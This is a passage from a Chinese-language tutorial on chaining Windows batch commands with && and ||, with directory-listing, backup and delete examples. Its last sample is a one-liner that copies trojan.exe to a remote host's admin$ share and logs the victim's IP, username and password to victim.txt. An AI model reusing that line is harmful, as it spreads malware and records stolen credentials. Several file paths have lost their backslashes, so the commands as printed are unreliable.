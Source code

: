 Directory of c:Ex4rch

2002-05-14 23:55
.
2002-05-14 23:55
..
2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
2 Dir(s) 768,671,744 bytes free
The system cannot find the path specified.

在做备份的时候可能会用到这种命令会比较简单，如：
dir file://192.168.0.1/database/backup.mdb && copy file://192.168.0.1/database/backup.mdb E:backup
如果远程服务器上存在backup.mdb文件，就执行copy命令，若不存在该文件则不执行copy命令。这种用法可以替换IF exist了 ：）

3.||

Usage：第一条命令 || 第二条命令 [|| 第三条命令...]

用这种方法可以同时执行多条命令，当碰到执行正确的命令后将不执行后面的命令，如果没有出现正确的命令则一直执行完所有命令；

Sample：
C:\Ex4rch>dir sometips.gif || del sometips.gif
Volume in drive C has no label.
Volume Serial Number is 0078-59FB

Directory of C:\Ex4rch

2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
0 Dir(s) 768,696,320 bytes free

组合命令使用的例子：
sample：
@copy trojan.exe \\%1admin$system32 && if not errorlevel 1 echo IP \%1 USER \%2 PASS \%3 >>victim.txt